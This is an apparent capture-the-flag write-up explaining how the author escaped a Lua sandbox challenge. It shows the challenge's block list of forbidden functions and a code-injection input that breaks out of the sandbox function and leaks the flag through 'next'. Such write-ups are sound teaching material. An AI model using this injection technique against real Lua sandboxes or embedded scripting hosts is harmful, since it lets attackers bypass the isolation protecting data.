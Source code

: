 ```lua
```
But the only problem was, I didn't know the index of the flag so I couldn't use rawget. What finally made it click was when I saw what was next to rawset in the list of 'illegalFunctions' while looking for rawget.
```lua
local illegalFunctions = {
        "print", "getfenv", "setfenv", "error", "loadstring", "load", "debug", "os", 
        "package", "newproxy", "buffer", "pcall", "bit32", "xpcall", "rawset", "next",
        "rawget", "getmetatable", "setmetatable", "collectgarbage", "assert", "gcinfo",
        "string", "rawequal", "loadlibrary", "require", "coroutine", "utf8"
    }
```
I have never used the 'next' function in lua as It was borderline obsolete. But I knew it could be used on tables, the next function when called with a table prints out the first index and the value of a table. So as an example:
```lua
local testTable = {
    [0] = "Hello, ",
    [1] = "World!",
}
local i, v = next(testTable)
print(i, v) -- Output: 0 Hello, 
i, v = next(testTable, i)
print(i, v) -- Output: 1, World!
```
Using this, I tried this input in the actual challenge socket:
```lua
1 return result end function ILoveBreaks(env) print(next(env.flag)) end hardening(ILoveBreaks) function test(result)
```
and thank god because the result was the flag,
```lua
Enter your tax calculation:
1 return result end function ILoveBreaks(env) print(next(env.flag)) end hardening(ILoveBreaks) function test(result)

Result:
0.41657587281769637     brunner{Wi1d_SaNdB0x_3Sc4p3_br0}
```
Now, why did this work? the input I provided first escaped the sandbox function as shown before. It got the environment the flag was in by calling another function as a parameter to 'hardening'. And finally, got past the metatable using the 'next' function. In total, the final payload looked like this in the code:
```lua

function sandbox(env)
    setfenv(1, env)
    flag = nil -- Don't leak the flag!
    -- Tax calculations
    local result = 1 
    return result -- I unfortunately did add the return back just so It would stop throwing errors at me
end 

function ILoveBreaks(env) 
    print(next(env.flag)) -- 0.41657587281769637     brunner{Wi1d_SaNdB0x_3Sc4p3_br0}
end 

hardening(ILoveBreaks) 

function test(result)
    return result
end

print(hardening(sandbox))
```